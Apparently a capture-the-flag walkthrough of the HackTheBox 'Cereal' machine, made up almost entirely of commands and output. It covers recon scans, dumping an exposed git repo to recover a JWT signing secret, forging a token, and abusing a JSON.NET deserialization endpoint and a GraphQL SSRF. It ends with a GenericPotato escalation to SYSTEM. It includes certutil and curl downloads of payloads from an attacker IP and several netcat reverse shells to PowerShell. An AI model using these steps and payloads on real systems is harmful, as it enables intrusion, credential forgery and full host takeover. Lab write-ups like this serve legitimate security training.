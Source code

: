 $ nmap --min-rate 3000 -oN nmap-tcp.initial -p- -Pn -T4 -v 10.10.10.217




$ nmap -oN nmap-tcp -p 22,80,443 -sC -sV -v 10.10.10.217  

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 08:8e:fe:04:8c:ad:6f:df:88:c7:f3:9a:c5:da:6d:ac (RSA)
|   256 fb:f5:7b:a1:68:07:c0:7b:73:d2:ad:33:df:0a:fc:ac (ECDSA)
|_  256 cc:0e:70:ec:33:42:59:78:31:c0:4e:c2:a5:c9:0e:1e (ED25519)
80/tcp  open  http     Microsoft IIS httpd 10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to https://10.10.10.217/
443/tcp open  ssl/http Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 1A506D92387A36A4A778DF0D60892843
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Cereal
| ssl-cert: Subject: commonName=cereal.htb
| Subject Alternative Name: DNS:cereal.htb, DNS:source.cereal.htb
| Issuer: commonName=cereal.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-11-11T19:57:18
| Not valid after:  2040-11-11T20:07:19
| MD5:   8785 41e5 4962 7041 af57 94e3 4564 090d
|_SHA-1: 5841 b3f2 29f0 2ada 2c62 e1da 969d b966 57ad 5367
|_ssl-date: 2021-04-11T15:30:16+00:00; +1s from scanner time.
| tls-alpn: 
|_  http/1.1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

$ sudo nmap -oN nmap-udp -sU -Pn -v 10.10.10.217

---

$ curl -I http://10.10.10.217                      
HTTP/1.1 307 Temporary Redirect
Transfer-Encoding: chunked
Location: https://10.10.10.217/
Server: Microsoft-IIS/10.0
X-Rate-Limit-Limit: 5m
X-Rate-Limit-Remaining: 149
X-Rate-Limit-Reset: 2021-04-11T15:34:18.7370332Z
X-Powered-By: Sugar
Date: Sun, 11 Apr 2021 15:29:18 GMT

____
----
c:\windows\system32\inetsrv> "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /t:library /utf8output /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Web.Services\v4.0_4.0.0.0__b03f5f7f11d50a3a\System.Web.Services.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\Microsoft.CSharp\v4.0_4.0.0.0__b03f5f7f11d50a3a\Microsoft.CSharp.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.WorkflowServices\v4.0_4.0.0.0__31bf3856ad364e35\System.WorkflowServices.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Xml.Linq\v4.0_4.0.0.0__b77a5c561934e089\System.Xml.Linq.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.ServiceModel.Web\v4.0_4.0.0.0__31bf3856ad364e35\System.ServiceModel.Web.dll" /R:"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorlib.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_64\System.Data\v4.0_4.0.0.0__b77a5c561934e089\System.Data.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_64\System.Web\v4.0_4.0.0.0__b03f5f7f11d50a3a\System.Web.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Data.DataSetExtensions\v4.0_4.0.0.0__b77a5c561934e089\System.Data.DataSetExtensions.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.IdentityModel\v4.0_4.0.0.0__b77a5c561934e089\System.IdentityModel.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.ComponentModel.DataAnnotations\v4.0_4.0.0.0__31bf3856ad364e35\System.ComponentModel.DataAnnotations.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Core\v4.0_4.0.0.0__b77a5c561934e089\System.Core.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Web.DynamicData\v4.0_4.0.0.0__31bf3856ad364e35\System.Web.DynamicData.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Web.ApplicationServices\v4.0_4.0.0.0__31bf3856ad364e35\System.Web.ApplicationServices.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.ServiceModel.Activation\v4.0_4.0.0.0__31bf3856ad364e35\System.ServiceModel.Activation.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Drawing\v4.0_4.0.0.0__b03f5f7f11d50a3a\System.Drawing.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Configuration\v4.0_4.0.0.0__b03f5f7f11d50a3a\System.Configuration.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.ServiceModel.Activities\v4.0_4.0.0.0__31bf3856ad364e35\System.ServiceModel.Activities.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Web.Extensions\v4.0_4.0.0.0__31bf3856ad364e35\System.Web.Extensions.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Xml\v4.0_4.0.0.0__b77a5c561934e089\System.Xml.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Activities\v4.0_4.0.0.0__31bf3856ad364e35\System.Activities.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.Runtime.Serialization\v4.0_4.0.0.0__b77a5c561934e089\System.Runtime.Serialization.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System\v4.0_4.0.0.0__b77a5c561934e089\System.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_64\System.EnterpriseServices\v4.0_4.0.0.0__b03f5f7f11d50a3a\System.EnterpriseServices.dll" /R:"C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System.ServiceModel\v4.0_4.0.0.0__b77a5c561934e089\System.ServiceModel.dll" /out:"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\c2032773\855af3a6\App_Web_templdfp.dll" /debug- /optimize+ /w:4 /nowarn:1659;1699;1701;612;618 /warnaserror-  "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\c2032773\855af3a6\App_Web_templdfp.0.cs" "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\c2032773\855af3a6\App_Web_templdfp.1.cs"


Microsoft (R) Visual C# Compiler version 4.7.3190.0

for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.


This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

c:\inetpub\source\default.aspx(3,24): error CS1519: Invalid token '>' in class, struct, or interface member declaration
----
____

$ nikto -host https://source.cereal.htb -output 443_nikto.txt

$ gobuster dir -k -o 443_gobuster.txt -u https://cereal.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,aspx


$ gobuster dir -k -o 443_source_gobuster.txt -u https://source.cereal.htb -w /usr/share/wordlists/dirb/common.txt -x txt,aspx

$ curl -X OPTIONS -I -k https://source.cereal.htb 
HTTP/2 200 
allow: OPTIONS, TRACE, GET, HEAD, POST
server: Microsoft-IIS/10.0
public: OPTIONS, TRACE, GET, HEAD, POST
x-powered-by: Sugar
date: Sun, 11 Apr 2021 15:48:17 GMT
content-length: 0

$ ./git-dumper/git_dumper.py -j 1 -r 2 -t 5 https://source.cereal.htb/ ./source_git



$ tree source_git
source_git
├── ApplicationOptions.cs
├── appsettings.Development.json
├── appsettings.json
├── CerealContext.cs
├── Cereal.csproj
├── ClientApp
│   ├── package.json
│   ├── package-lock.json
│   ├── public
│   │   ├── favicon.ico
│   │   ├── FuturaStd-Bold.woff
│   │   ├── index.html
│   │   ├── logo192.png
│   │   ├── logo512.png
│   │   ├── manifest.json
│   │   └── robots.txt
│   ├── README.md
│   └── src
│       ├── AdminPage
│       │   ├── AdminPage.jsx
│       │   └── index.js
│       ├── App
│       │   ├── App.css
│       │   ├── App.jsx
│       │   └── index.js
│       ├── _components
│       │   ├── index.js
│       │   └── PrivateRoute.jsx
│       ├── _helpers
│       │   ├── auth-header.js
│       │   ├── handle-response.js
│       │   ├── history.js
│       │   └── index.js
│       ├── HomePage
│       │   ├── HomePage.jsx
│       │   └── index.js
│       ├── index.jsx
│       ├── LoginPage
│       │   ├── index.js
│       │   └── LoginPage.jsx
│       └── _services
│           ├── authentication.service.js
│           ├── index.js
│           └── request.service.js
├── Controllers
│   ├── RequestsController.cs
│   └── UsersController.cs
├── DownloadHelper.cs
├── ExtensionMethods.cs
├── IPAddressHandler.cs
├── IPRequirement.cs
├── Migrations
│   ├── 20191105055735_InitialCreate.cs
│   ├── 20191105055735_InitialCreate.Designer.cs
│   └── CerealContextModelSnapshot.cs
├── Models
│   ├── AuthenticateModel.cs
│   ├── CerealModel.cs
│   ├── Request.cs
│   └── User.cs
├── Pages
│   ├── Error.cshtml
│   ├── Error.cshtml.cs
│   └── _ViewImports.cshtml
├── Program.cs
├── Properties
│   └── launchSettings.json
├── Services
│   └── UserService.cs
└── Startup.cs

---

$ cat Services/UserService.cs

using System;
using System.Collections.Generic;
using System.IdentityModel.Tokens.Jwt;
using System.Linq;
using System.Security.Claims;
using System.Text;
using Microsoft.Extensions.Options;
using Microsoft.IdentityModel.Tokens;
using Cereal.Models;
using Cereal.Helpers;

namespace Cereal.Services
{
    public interface IUserService
    {
        User Authenticate(string username, string password);
    }

    public class UserService : IUserService
    {
         public User Authenticate(string username, string password)
        {
            using (var db = new CerealContext())
            {
                var user = db.Users.Where(x => x.Username == username && x.Password == password).SingleOrDefault();

                // return null if user not found
                if (user == null)
                    return null;

                // authentication successful so generate jwt token
                var tokenHandler = new JwtSecurityTokenHandler();
                var key = Encoding.ASCII.GetBytes("****");
                var tokenDescriptor = new SecurityTokenDescriptor
                {
                    Subject = new ClaimsIdentity(new Claim[]
                    {
                        new Claim(ClaimTypes.Name, user.UserId.ToString())
                    }),
                    Expires = DateTime.UtcNow.AddDays(7),
                    SigningCredentials = new SigningCredentials(new SymmetricSecurityKey(key), SecurityAlgorithms.HmacSha256Signature)
                };
                var token = tokenHandler.CreateToken(tokenDescriptor);
                user.Token = tokenHandler.WriteToken(token);

                return user.WithoutPassword();
            }
        }
    }
}   

----
$ cat .git/logs/HEAD   
0000000000000000000000000000000000000000 8f2a1a88f15b9109e1f63e4e4551727bfb38eee5 Count Chocula <chocula@cere.al> 1573789070 -0600	commit (initial): CEREAL!!
8f2a1a88f15b9109e1f63e4e4551727bfb38eee5 7bd9533a2e01ec11dfa928bd491fe516477ed291 Sonny <sonny@cere.al> 1573789206 -0600	commit: Security fixes
7bd9533a2e01ec11dfa928bd491fe516477ed291 3a23ffe921530036a4e0c355e6c8d1d4029cb728 Sonny <sonny@cere.al> 1573789555 -0600	commit: Image updates
3a23ffe921530036a4e0c355e6c8d1d4029cb728 34b68232714f841a274050591ff5595dcf7f85da Sonny <sonny@cere.al> 1578439144 -0600	commit: Some changes

$ ./GitTools/Extractor/extractor.sh source_git/ ./commits

$ diff ../commits/1-8f2a1a88f15b9109e1f63e4e4551727bfb38eee5/Services/UserService.cs ./Services/UserService.cs

33c33
<                 var key = Encoding.ASCII.GetBytes("secretlhfIH&FY*#oysuflkhskjfhefesf");
---
>                 var key = Encoding.ASCII.GetBytes("****");
----


---
$ cat  ./ClientApp/src/AdminPage/AdminPage.jsx

import React from 'react';
import { MarkdownPreview } from 'react-marked-markdown';
import { requestService, authenticationService } from '../_services';
import { Accordion, Card, Button } from 'react-bootstrap'

class RequestCard extends React.Component {
    componentDidCatch(error) {
        console.log(error);
    }

    render() {
        try {
            let requestData;
            try {
                requestData = JSON.parse(this.props.request.json);
            } catch (e) {
                requestData = null;
            }
            return (
                <Card>
                    <Card.Header>
                        <Accordion.Toggle as={Button} variant="link" eventKey={this.props.request.requestId} name="expand" id={this.props.request.requestId}>
                            {requestData && requestData.title && typeof requestData.title == 'string' && 
                                <MarkdownPreview markedOptions={{ sanitize: true }} value={requestData.title} />
                            }
                        </Accordion.Toggle>
                    </Card.Header>
                    <Accordion.Collapse eventKey={this.props.request.requestId}>
                        <div>
                            {requestData &&
                                <Card.Body>
                                    Description:{requestData.description}
                                    <br />
                                    Color:{requestData.color}
                                    <br />
                                    Flavor:{requestData.flavor}
                                </Card.Body>
                            }
                        </div>
                    </Accordion.Collapse>
                </Card>
            );
        } catch (e) { console.log(e); return null };
    }
}

class AdminPage extends React.Component {
    constructor(props) {
        super(props);

        this.state = {
            requests: null,
        };
    }

    componentDidMount() {
        requestService.getCerealRequests().then(requests => this.setState({ requests }));
    }

    render() {
        const { requests } = this.state;
        return (
            <div className="card card-body bg-light">
                <h3>Current cereal requests:</h3>
                {requests &&
                    <Accordion>
                    {requests.map(request =>
                        <>
                            <RequestCard request={request}/>
                            <br />
                        </>
                    )}
                    </Accordion>
                }
            </div>
        );
    }
}

export { AdminPage }; 

---

$ cat ./ClientApp/src/_services/request.service.js 

import { authHeader, handleResponse } from '../_helpers';

export const requestService = {
    requestCereal,
    getCerealRequests
};

function requestCereal(json) {
    const requestOptions = {
        method: 'POST',
        headers: authHeader(),
        body: JSON.stringify({ json })
    };
    return fetch('/requests', requestOptions).then(handleResponse);
}

function getCerealRequests() {
    const requestOptions = {
        method: 'GET',
        headers: authHeader()
    };
    return fetch('/requests', requestOptions).then(handleResponse);
}    

---

$ cat ./ClientApp/src/_services/authentication.service.js 

import { BehaviorSubject } from 'rxjs';
import { handleResponse } from '../_helpers';

const currentUserSubject = new BehaviorSubject(JSON.parse(localStorage.getItem('currentUser')));

export const authenticationService = {
    login,
    logout,
    currentUser: currentUserSubject.asObservable(),
    get currentUserValue () { return currentUserSubject.value }
};

function login(username, password) {
    const requestOptions = {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ username, password })
    };

    return fetch('/users/authenticate', requestOptions)
        .then(handleResponse)
        .then(user => {
            // store user details and jwt token in local storage to keep user logged in between page refreshes
            localStorage.setItem('currentUser', JSON.stringify(user));
            currentUserSubject.next(user);

            return user;
        });
}

function logout() {
    // remove user from local storage to log user out
    localStorage.removeItem('currentUser');
    currentUserSubject.next(null);
}

---

$ cat auth-header.js 
import { authenticationService } from '../_services';

export function authHeader() {
    // return authorization header with jwt token
    const currentUser = authenticationService.currentUserValue;
    if (currentUser && currentUser.token) {
        return { Authorization: `Bearer ${currentUser.token}`, 'Content-Type': 'application/json' };
    } else {
        return {};
    }
}       

---

$ cat RequestsController.cs                        
using Microsoft.AspNetCore.Mvc;
using Microsoft.AspNetCore.Authorization;
using System.Linq;
using Cereal.Models;
using Cereal.Services;
using Newtonsoft.Json;
using System;

namespace Cereal.Controllers
{
    [Authorize]
    [ApiController]de
    [Route("[controller]")]
    public class RequestsController : ControllerBase
    {
        [HttpPost]
        public IActionResult Create([FromBody]Request request)
        {
            using (var db = new CerealContext())
            {
                try
                {
                    db.Add(request);
                    db.SaveChanges();
                } catch {
                    return BadRequest(new { message = "Invalid request" });
                }
            }

            return Ok(new { message = "Great cereal request!", id = request.RequestId});
        }

        [Authorize(Policy = "RestrictIP")]
        [HttpGet("{id}")]
        public IActionResult Get(int id)
        {
            using (var db = new CerealContext())
            {
                string json = db.Requests.Where(x => x.RequestId == id).SingleOrDefault().JSON;
                // Filter to prevent deserialization attacks mentioned here: https://github.com/pwntester/ysoserial.net/tree/master/ysoserial
                if (json.ToLower().Contains("objectdataprovider") || json.ToLower().Contains("windowsidentity") || json.ToLower().Contains("system"))
                {
                    return BadRequest(new { message = "The cereal police have been dispatched." });
                }
                var cereal = JsonConvert.DeserializeObject(json, new JsonSerializerSettings
                {
                    TypeNameHandling = TypeNameHandling.Auto
                });
                return Ok(cereal.ToString());
            }
        }

---

Session Generation

1. /login (./source_git/ClientApp/src/LoginPage/LoginPage.jsx)
2. ./source_git/ClientApp/src/_services/authentication.service.js
3. ./source_git/ClientApp/src/_helpers/handle-response.js

$ date -d +7days +%s

1618767777

---

POST /requests HTTP/1.1

Host: cereal.htb

Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiamViaWRpYWgiLCJleHAiOjE2MTg3Njc3Nzd9.0LZ04PBGxrvVmwszLyYGazNnYSMXnwF-c4kb_ro7ms4

Content-Type: application/json

Content-Length: 25



{"JSON": {"test":"test"}}

---

curl.exe --output C:\Users\Public\Music\nc.exe http://10.10.14.11/nc.exe

dir C:\Users\Public\Music

C:\Users\Public\Music\nc.exe 10.10.14.11 443 -e powershell.exe

---

PS C:\windows\system32\inetsrv> whoami

  cereal\sonny

PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

PS C:\windows\system32\inetsrv> netstat -ano | findstr LISTENING | findstr 0.0.0.0

  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING       1652
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       852
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8172           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       464
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       304
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1044
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       600
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       608
  TCP    10.10.10.217:139       0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:49668        0.0.0.0:0              LISTENING       3432
  TCP    127.0.0.1:49672        0.0.0.0:0              LISTENING       3764

PS C:\windows\system32\inetsrv> certutil.exe -urlcache -f http://10.10.14.11/chisel.exe C:\Users\Public\Music\chisel.exe

****  Online  ****
CertUtil: -URLCache command completed successfully.

PS C:\windows\system32\inetsrv> C:\Users\Public\Music\chisel.exe client http://10.10.14.11:4444 R:8080:127.0.0.1:8080

---

<script>
    fetch('/api/graphql', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
            'Accept': 'application/json',
        },
        body: JSON.stringify({ query: "{ allPlants { id, location, status } }" })
    }).then(r => r.json()).then(r => r.data.allPlants.forEach(d => document.getElementById('opstatus').innerHTML += `<tr><th scope="row">${d.id}</th><td>${d.location}</td><td>${d.status}</td></tr>`))
</script>

---

POST /api/graphql HTTP/1.1
Host: localhost:8080
Content-Length: 0
Content-Type: application/json


{"query":"{allPlants{id,location,status}}"}

{"query":"{__schema{types{name}}}"}

{"query":"mutation{updatePlant}"}

{"query":"mutation{updatePlant(plantId:3, version:6.9, sourceURL:\"http://10.10.14.11\")}"}

---

C:\Users\Public\Music\nc.exe 10.10.14.11 1234 -e powershell.exe

PS C:\windows\system32\inetsrv> certutil.exe -urlcache -f http://10.10.14.11/GenericPotato.exe C:\Users\Public\Music\gp.exe

PS C:\Users\Public\Music> .\gp.exe --help
.\gp.exe --help
GenericPotato by @micahvandeusen
  Modified from SweetPotato by @_EthicalChaos_

  -m, --method=VALUE         Auto,User,Thread (default Auto)
  -p, --prog=VALUE           Program to launch (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -e, --exploit=VALUE        Exploit mode [HTTP|NamedPipe(default)]
  -l, --port=VALUE           HTTP port to listen on (default 8888)
  -i, --host=VALUE           HTTP host to listen on (default 127.0.0.1)
  -h, --help                 Display this help
PS C:\Users\Public\Music> .\gp.exe -p "C:\Users\Public\Music\nc.exe" -a "10.10.14.11 42069 -e powershell.exe" -e HTTP -l 1080
.\gp.exe -p "C:\Users\Public\Music\nc.exe" -a "10.10.14.11 42069 -e powershell.exe" -e HTTP -l 1080
GenericPotato by @micahvandeusen
  Modified from SweetPotato by @_EthicalChaos_

[+] Starting HTTP listener on port http://127.0.0.1:1080
[+] Listener ready

---

POST /api/graphql HTTP/1.1
Host: localhost:8080
Content-Length: 94
Content-Type: application/json

{"query":"mutation{updatePlant(plantId:2, version:6.9, sourceURL:\"http://localhost:1080\")}"}

---

$ nc -lvp 42069

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> hostname
hostname
Cereal
PS C:\Windows\system32> dir C:\Users\Administrator\Desktop
dir C:\Users\Administrator\Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        3/16/2021   4:16 AM      410218330 f.msu                                                                 
-ar---        4/12/2021  12:22 PM             34 root.txt    

---

https://snyk.io/vuln/npm:react-marked-markdown:20180517
https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a
https://github.com/micahvandeusen/GenericPotato
https://labs.bishopfox.com/tech-blog/design-considerations-for-secure-graphql-apis
https://graphql.org/learn/queries/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection